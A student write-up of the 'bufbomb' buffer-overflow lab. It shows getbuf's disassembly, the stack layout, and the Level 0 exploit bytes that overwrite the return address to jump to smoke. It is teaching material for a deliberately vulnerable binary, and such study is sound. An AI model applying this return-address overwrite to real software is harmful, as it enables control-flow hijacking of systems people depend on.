 # User ID and Cookie
This lab has totally 5 levels to solve, you have to use buff overflow to change runtime behavior of an executable file
`bufbomb`.  You also have to provide an User ID to run `bufbomb` and your answer will base on it. The Use ID and Cookie I am using:  
- User ID : Cthesky
- Cookie : 0x44fa5d89

# getbuf
Since level 0 ~ 3 are all related to `getbuf`, let's have a look at it:  
```asm
080491f4 <getbuf>:
 80491f4:	55                      push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret
```
We can see that buff starts at an address 40 smaller than saved $ebp, and ret address is just above saved $ebp :  

Address | Content
---     | ---
...     | ...
x + 44  | ret address
x + 40  | saved $ebp
...     | ...
x       | start of buff
...     | ...


# Level 0 : Smoke
Our task is to get `BUFBOMB` to execute the code for `smoke` when `getbuf` executes its return statement,
we could cause a buffer overflow and rewrite return address to address of `smoke`, which is 0x8048c18. The answer will be:  
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```
